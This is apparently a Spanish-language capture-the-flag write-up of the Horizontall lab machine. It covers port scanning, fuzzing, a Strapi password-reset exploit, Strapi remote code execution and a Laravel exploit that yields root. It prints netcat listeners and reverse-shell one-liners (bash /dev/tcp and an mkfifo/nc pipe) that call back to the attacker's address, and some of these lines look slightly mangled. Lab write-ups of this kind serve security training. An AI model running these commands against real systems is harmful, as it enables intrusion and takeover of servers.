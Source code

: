 ```yaml
---
title: 'CTF - Horizontall WriteUp'
date: '2022-02-09'
tags: ["CTF", "Hacking", "VueJS", "Fuzzing", "Rce", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'En este CTF nos enfrentamos a una máquina horizontall.htb. Comienzo realizando un escaneo de puertos con NMAP y descubro que los puertos 80 y 22 están abiertos. Al abrir el sitio web en el puerto 80, noto que se trata de una SPA en VueJS. Utilizando el devtools de Firefox, encuentro los archivos Vue que llaman a la API para obtener información. Descubro un subdominio interesante y lo añado a mi /etc/hosts para resolver la dirección. Realizo fuzzing contra este subdominio y encuentro una ruta /admin que contiene un formulario de login de la plataforma Strapi. Mediante una vulnerabilidad de reseteo de contraseña, logro obtener acceso al usuario admin. Aprovechando una vulnerabilidad de ejecución remota de código en Strapi CMS, consigo una reverse shell y escalo privilegios. Exploro el localhost y descubro que hay un servicio oculto en el puerto 8000. Utilizando un exploit de Laravel, me conecto a este servicio y obtengo una shell como usuario root. Encuentro el archivo root.txt y finalizo el reto.'
images: ["/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp", "/static/images/uploads/ctf-horizontall/image.webp", "/static/images/uploads/ctf-horizontall/Screenshot_2-1.webp", "/static/images/uploads/ctf-horizontall/image-3.webp", "/static/images/uploads/ctf-horizontall/image-5.webp", "/static/images/uploads/ctf-horizontall/image-6.webp"]
---
```


![](/static/images/uploads/ctf-horizontall/Screenshot_1-1.webp)

Hago un escaneo de puertos todos los puertos disponibles con NMAP.


```
nmap -p- -sS -T5 --open -vvv 10.10.11.105 -oG allPorts
```
Me devuelve los puertos 80 y 22 como abiertos y abro en un navegador la siguiente url http://10.10.11.105.

![](/static/images/uploads/ctf-horizontall/image.webp)

Percibo que me encuentro ante una SPA hecha en VueJS. En un inicio, el código fuente de la web está oculto puesto que se carga posteriormente cuando el navegador interpreta Javascript. Utilizando el devtools de Firefox, encuentro los archivos Vue que llaman a la API para recuperar la información.

![](/static/images/uploads/ctf-horizontall/Screenshot\_2-1.webp)

El subdominio que aparece reflejado lo introduzco en mi /etc/hosts con el fin de poder resolver dicha dirección en caso de encontrarme con un virtual hosting.


```
❯ cat /etc/hosts
───────┬─────────────────────────────────────────────────────────────────────
       │ File: /etc/hosts
───────┼─────────────────────────────────────────────────────────────────────
   1   │ # Host addresses
   2   │ 127.0.0.1  localhost
   3   │ 127.0.1.1  iocio-virtualbox
   4   │ ::1        localhost ip6-localhost ip6-loopback
   5   │ ff02::1    ip6-allnodes
   6   │ ff02::2    ip6-allrouters
   7   │ 
   8   │ 10.10.11.105    horizontall.htb www.horizontall.htb api-prod.horizontall.htb
```
Realizo fuzzing contra el dominio api-prod.horizontall.htb.


```
 wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://api-prod.horizontall.htb/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://api-prod.horizontall.htb/FUZZ
Total requests: 141708
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================    
000000014:   200        19 L     33 W       413 Ch      "http://api-prod.horizontall.htb/"
000000350:   200        0 L      21 W       507 Ch      "reviews"             
000001895:   200        16 L     101 W      854 Ch      "admin"               
```
Encuentro una ruta interesante en /admin. En ella, aparece un formulario de login de una plataforma denominada Strapi.

![](/static/images/uploads/ctf-horizontall/image-3.webp)

Buscando un poco encuentro la siguiente [vulnerabilidad](https://www.exploit-db.com/exploits/50237) que nos permite resetear la contraseña del usuario. Analizando el script, veo que accediendo a la ruta http://api-prod.horizontall.htb/admin/strapiVersion puedo ver la versión del CMS que está detrás. Eso me sirve para confirmar que la versión *3.0.0-beta.17.4* es vulnerable. Aun así, necesito un usuario válido para poder emplear el script.

Si rellenamos el formulario de "olvidó su contraseña", observamos que hay una fuga de información que no debería existir. **Este tipo de formularios no deberían dar pistas sobre que usuarios existen o cuáles no.**

![](/static/images/uploads/ctf-horizontall/image-5.webp)

Probamos con admin@horizontall.htb y vemos que no pone nada, por lo que asumimos que ese usuario **SI** existe.

Añadimos en el script los campos acordes a nuestro entorno y ejecutamos.


```
❯ python3 password.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'admin' set for user admin@horizontall.htb
```
De esta forma, hemos modificado la contraseña y podemos ejecutar otro tipo de vulnerabilidades que requieren de autenticación previa. Podemos encontrar una vulnerabilidad de ese tipo [aquí](https://www.exploit-db.com/exploits/50239). Nos ponemos en escucha en el puerto 443 con netcat. 


```
nc -lvp 443
```
Modificamos el script para adaptarlo a nuestras necesidades y ejecutamos.


```
python3 rce.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

$ bash -c 'bash -i & /dev/tcp/10.10.14.15/443 0&1'
```
De esta manera, en la consola de netcat, recibimos una reverse shell con la que podemos empezar a escalar privilegios.


```
strapi@horizontall:~$ whoami
strapi
strapi@horizontall:~$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```
Verifico que puertos hay abiertos en el localhost  de la máquina por si hubiese algún servicio oculto ejecutandose.


```
strapi@horizontall:~$ netstat -tulpn
Proto Recv-Q Send-Q Local Address           Foreign Address         State    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN  
...
```
Con un curl, vemos que es una CMS de Laravel. Creamos una clave ssh para poder conectarnos a la máquina estableciendo un túnel entre mi máquina y la máquina vulnerable con tal de poder ver ese puerto oculto en su localhost.


```
ssh -L 80:127.0.0.1:8000 -i strapi_id_rsa strapi@10.10.11.105
```
![](/static/images/uploads/ctf-horizontall/image-6.webp)

Navegando un poco, encontramos un [exploit](https://www.exploit-db.com/exploits/49424) de la versión de Laravel que está siendo ejecutada en la máquina. Comprobamos que funciona con un 'whoami'.


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'whoami'
Exploit...
root
```
Una vez verificado, nos ponemos en escucha con netcat.


```
nc -lvp 443
```
Y nos mandamos una reverse shell con netcat versión antigua (la que tiene la máquina instalada).


```
python3 laravel.py http://127.0.0.1:80 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&1|nc 10.10.14.15 443 /tmp/f'
```
Recibimos la shell en nuestro equipo y terminamos con esta máquina.


```
❯ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from horizontall.htb [10.10.11.105] 38560
# whoami
root
# cat /root/root.txt
7360xxxxxxxxxxxxxxxxxxx

```
